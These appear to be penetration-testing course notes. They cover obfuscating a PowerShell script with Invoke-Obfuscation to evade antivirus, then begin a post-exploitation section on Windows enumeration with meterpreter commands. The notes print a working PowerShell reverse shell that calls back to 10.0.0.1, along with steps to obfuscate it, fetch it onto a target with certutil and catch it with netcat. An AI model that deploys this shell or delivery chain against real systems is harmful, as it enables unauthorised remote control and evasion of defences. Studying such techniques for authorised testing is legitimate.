 **Invoke-Obfuscation:**

- `git clone <invoke-obfuscation.git>` - from GitHub
- `$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()` - saving this as `shell.ps1`. It is a PowerShell script for reverse shell

In **PowerShell** below:

- `Import-Module ./Invoke-Obfuscation.psd1`
- `Invoke-Obfuscation`
- `Invoke-Obfuscation> SET SCRIPTPATH /home/user/shell.ps1`
- `Invoke-Obfuscation> AST`
- `Invoke-Obfuscation> ALL`
- `Invoke-Obfuscation> 1`
- Then copying the result of obfuscated script and saving as `obfuscated-shell.ps1`

- `python -m http.server 80`
- `certuril -urlcache -f http://<local.ip>/obfuscated-shell.ps1 obfuscated-shell.ps1` - On a Windows target
- `nc -nvlp 1234`
- running `obfuscated-shell.ps1` with PowerShell

# Post-Exploitation (Host & Net)

The final phase of the pentesting life cycle - Tactics, techniqiues & procedures that adversaries undertake (begin to do) after gaining an initial foothold on a target system.

Methods will **differ** based on the target OS and privileges.

Rules of engagement must be taken into consideration (can you clear the logs? can you change passwords? etc)

![Screenshot from 2024-08-22 17-10-34.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/5b559fd1-44a9-48a9-ace5-96e04c706280/e244b3e9-aba7-4ae4-a9cf-90808265d24e/Screenshot_from_2024-08-22_17-10-34.png)

## Local Enumeration

### Windows Local Enumeration

### System info

- `meterpreter > getuid` and `sysinfo` - gives hostname & username, then OS info
- `meterpreter > shell`
    - `C:\> hostname`
    - `C:\> whoami`
    - `C:\> systeminfo` - gives every info above us as well as the hotfixes (patches for vulnerabilities)
    - `C:\> wmic qfe get Caption,Description,HotFixID,InstalledOn` - gives info about the link of the hotfix, description, id, and install date
        - We search for `Description: Security Update` because they are the important ones.
    - `meterpreter > cat C:\\Windows\\System32\\eula.txt` - gives OS version
